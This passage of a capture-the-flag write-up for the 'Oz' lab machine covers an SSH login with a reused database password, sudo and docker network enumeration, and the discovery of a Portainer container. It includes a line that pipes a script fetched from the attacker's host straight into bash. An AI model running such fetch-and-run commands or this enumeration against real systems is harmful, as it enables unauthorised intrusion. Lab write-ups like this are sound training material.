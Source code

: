 The password from MySQL works for the SSH key and login as _dorthi_ is successful.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.5/LinEnum.sh | bash
```

By checking the root permissions, it shows that this user has permissions to run two docker commands:
```
sudo -l

User dorthi may run the following commands on Oz:
    (ALL) NOPASSWD: /usr/bin/docker network inspect *
    (ALL) NOPASSWD: /usr/bin/docker network ls
```

Enumerating the **Docker networks**:
```
sudo docker network ls

NETWORK ID          NAME                DRIVER              SCOPE
4896c34ce8c3        bridge              bridge              local
49c1b0c16723        host                host                local
3ccc2aa17acf        none                null                local
48148eb6a512        prodnet             bridge              local
```
```
sudo docker network inspect prodnet
sudo docker network inspect none
sudo docker network inspect host
sudo docker network inspect bridge
```

- The bridge called _prodnet_ contains three containers with the web application and the database
- The host called _host_ is empty
- The bridge called _bridge_ has a subnet that was not seen before:

```
Name": "bridge",
(...)
            "Config": [
                {
                    "Subnet": "172.17.0.0/16",
                    "Gateway": "172.17.0.1"
(...)
            "e267fc4f305575070b1166baf802877cb9d7c7c5d7711d14bfc2604993b77e14": {
                "Name": "portainer-1.11.1",
                "EndpointID": "7a18d3b4cdf208160c7d75d5d37389c1720508fc79c3737ca1b756173b6ed315",
                "MacAddress": "02:42:ac:11:00:02",
                "IPv4Address": "172.17.0.2/16",
                "IPv6Address": ""
(...)
```
